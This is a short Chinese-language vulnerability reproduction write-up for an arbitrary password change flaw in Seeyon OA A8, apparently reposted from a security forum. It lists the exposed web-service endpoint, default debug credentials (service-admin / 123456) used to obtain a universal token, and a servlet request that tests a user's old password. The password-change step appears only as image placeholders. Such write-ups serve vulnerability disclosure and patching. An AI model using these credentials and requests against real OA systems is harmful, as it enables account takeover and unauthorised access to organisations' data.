 # 致远OA A8 任意用户密码修改漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3353](https://www.zhihuifly.com/t/topic/3353)

# 致远OA A8 任意用户密码修改漏洞

## 一、漏洞简介

## 二、漏洞影响

致远OA A8

## 三、复现过程

```
http://www.0-sec.org/seeyon/services/authorityService?wsdl 
```

通过调试接口的默认用户 userName:service-admin password:123456 获取万能Token之后可以修改任意用户密码。

![image](img/3c4cb507dc2d209da3b457e3bf29e721.png)

访问

```
http://www.0-sec.org/seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=zw&P_2_String=wooyun 
```

返回false 说明zw密码不正确

![image](img/618a9932312f5e6da14e430733ebfb59.png)

修改密码

![image](img/0516b27f27178254367fe70199a03582.png)

![image](img/c0da305643844565a5022f5f8286c5ee.png)